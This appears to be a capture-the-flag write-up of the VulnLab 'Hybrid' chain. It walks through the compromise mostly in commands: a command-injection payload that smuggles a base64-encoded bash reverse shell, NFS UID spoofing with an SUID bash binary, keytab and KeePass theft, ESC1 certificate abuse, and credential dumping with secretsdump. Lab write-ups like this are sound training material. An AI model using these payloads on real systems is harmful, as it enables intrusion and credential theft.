

# Hybrid

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Hybrid** chain from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the chain.


Let’s start by scanning the chain.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 593,139,445,9389,3389,464,5985,54798,389,54763,54776,49667,3268,54783,135,53,49669,52120,636 --min-rate=1000 10.10.255.101
```



Unlike the normal boxes the chain have 2 initial IP so let’s scan the second IP

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned-102.txt -p 35739,41033,49177,143,111,60249,22,25,993,110,80,587,37033,2049,995 --min-rate=1000 10.10.255.102
```


Now let’s enumerate the nfs

```bash
showmount -e 10.10.255.102
```


> Notice that we have a share named /opt/share
> 

Now let’s go and mount the nfs share

```bash
sudo mount -t nfs 10.10.255.102:/opt/share /tmp
```


As we see we got a backup file so let’s go copy and extract it

```bash
tar -xvzf backup.tar.gz
```


now let’s cat the dovecot-users

```bash
cat dovecot/dovecot-users
```


> And we got emails and passwords
> 
> 
> email: admin@hybrid.vl
> password: Duckling21
> email: peter.turner@hybrid.vl
> passowrd: PeterIstToll!
> 

Now let’s login as the user peter.turner

```bash
email: peter.turner@hybrid.vl
passowrd: PeterIstToll!
```


Now let’s see what we can find


> Notice that there is a mail saying that there was a plugin installed on the server
> 

so let’s search for a CVE to this plugin


> Notice that we found an RCE Vulnerability
> 

Now let’ exploit it

```bash
admin&ping${IFS}-c${IFS}3${IFS}10.8.5.233&hybrid.vl
```


Now let’s open tcpdump on our machine

```bash
sudo tcpdump -i tun0 icmp
```


Now let’s see if we got connection


now let’s get a reverse shell and pass it

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.255.102/1337 0>&1'" | base64 -w0
```


Now let’s gain a reverse shell

```bash
admin&echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjUuMjMzLzEzMzcgMD4mMScK|base64${IFS}-d|bash&@hybrid.vl
```


now let’s stable the shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


Now let’ press CTRL + Z


now type this

```bash
stty raw -echo;fg
```


now 

```bash
export TERM=xterme
```


Now let’s create a new user

```bash
sudo useradd shareuser 
```


now let’s change it’s sed to the sed of peter.turner

```bash
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```


now let’s go and copy the bash binary to the nfs directory and add SUID binary to it

```bash
cp /usr/bin/bash /opt/share;chmod +x /opt/share/bash;chmod +s /opt/share/bash
```


Now on our attack machine let’s copy the bash binary to the tmp and add the SUID to it

```bash
cp /usr/bin/bash /tmp;chmod +x /tmp/bash;chmod +s /tmp/bash
```


notice that on the victim machine we got the bash SUID so let’s login as peter

```bash
/opt/share/bash -p
```


as we see we are now the user peter.turner

Now let’s navigate to the home directory

```bash
cd /home/peter.turner@hybrid.vl
```


Amazing we got the user flag 🥳

Now let’s transfer the password.kdbx to our machine

```bash
wget http://10.10.255.102:8080/passwords.kdbx
```


now let’s try to open the pasowrds file


we need a password so let’s go and crack it 

```bash
keepass2john passwords.kdbx > crackme.txt
```


Now using john to crack the hash

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


Unfortunately it will not be cracked so let’s try to login with the same password as the email


And we did so let’s go and copy the password and try to authenticate to the dc

```bash
nxc smb hybrid.vl -u 'peter.turner' -p 'b0cwR+G4Dzl_rw'
```


and we did login so let’s go and get a bloodhound

```bash
bloodhound-python -ns 10.10.255.101 -d hybrid.vl -u peter.turner -p b0cwR+G4Dzl_rw -c all --zip
```


Now let’s go and open it and see if anything interesting we can find


and we don’t have any permissions so let’s see the certificate services

```bash
certipy-ad find -u peter.turner@hybrid.vl -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.255.101
```


Now let’s search for any ESC vulnerabilities 

```bash
cat 20250329082653_Certipy.txt | grep -i ESC -b40
```


> Notice that there is a template named HybridComputers is vulnerable to ESC1
> 

Now on the mail01 machine let’s search for keytab file

```bash
ls -las /etc/krb5.keytab
```


now let’s transfer the file to our machine

```bash
wget http://mail01.hybrid.vl:9090/krb5.keytab
```


now let’s retrieve the MAIL01$ hash

```bash
python3 keytabextract.py ../krb5.keytab
```


and we reconered the passwd of the MAIL01$ 

let’s now abuse the certificate service 

```bash
certipy-ad req -ca 'hybrid-DC01-CA' -dc-ip '10.10.255.101' -u 'MAIL01$' -hashes :0f916c5246fdbc7ba95dcef4126d57bd -template 'HybridComputers' -target 'dc01.hybrid.vl' -upn 'administrator@hybrid.vl' -key-size 4096
```


now let’s retrive the administrator hash

```bash
certipy-ad auth -pfx administrator.pfx
```


and we got Not Trusted

```bash
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt
```


Now let’s reset the admin password

```bash
python3 passthecert.py -crt administrator.crt -key administrator.key -domain hybrid.vl -dc-ip 10.10.255.101 -target administrator -new-pass -action modify_user
```


now let’s go and use secretsdump to dump the credentials

```bash
impacket-secretsdump hybrid.vl/administrator:'CkrmFFBPnkFOXoSIq40xL4ZaH92CrRiy'@10.10.255.101
```


now let’s try to login with winrm

```bash
evil-winrm -i hybrid.vl -u administrator -p 'CkrmFFBPnkFOXoSIq40xL4ZaH92CrRiy'
```


now let’s go to administrator desktop to see the flag

```bash
dir C:\Users\Administrator\desktop
```


and we did it we got the root flag 🥳


That’s it for the **Hybrid** chain! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX